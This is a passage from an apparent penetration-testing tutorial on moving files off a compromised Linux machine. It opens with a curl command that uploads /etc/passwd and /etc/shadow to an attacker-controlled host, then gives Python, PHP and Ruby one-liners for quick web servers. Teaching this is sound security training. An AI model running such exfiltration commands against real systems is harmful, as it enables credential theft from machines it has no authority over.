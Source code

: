 ```bash
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

We used the option `--insecure` because we used a self-signed certificate that we trust.

## Alternative Web File Transfer Method

Since Linux distributions usually have `Python` or `php` installed, starting a web server to transfer files is straightforward. Also, if the server we compromised is a web server, we can move the files we want to transfer to the web server directory and access them from the web page, which means that we are downloading the file from our Pwnbox.

It is possible to stand up a web server using various languages. A compromised Linux machine may not have a web server installed. In such cases, we can use a mini web server. What they perhaps lack in security, they make up for flexibility, as the webroot location and listening ports can quickly be changed.

### **Linux - Creating a Web Server with Python3**

```bash
python3 -m http.server

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

### **Linux - Creating a Web Server with Python2.7**

```bash
python2.7 -m SimpleHTTPServer

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

### **Linux - Creating a Web Server with PHP**

```bash
php -S 0.0.0.0:8000

[Fri May 20 08:16:47 2022] PHP 7.4.28 Development Server (http://0.0.0.0:8000) started
```

### **Linux - Creating a Web Server with Ruby**

```bash
ruby -run -ehttpd . -p8000

[2022-05-23 09:35:46] INFO  WEBrick 1.6.1
[2022-05-23 09:35:46] INFO  ruby 2.7.4 (2021-07-07) [x86_64-linux-gnu]
[2022-05-23 09:35:46] INFO  WEBrick::HTTPServer#start: pid=1705 port=8000
```

### **Download the File from the Target Machine onto the Pwnbox**
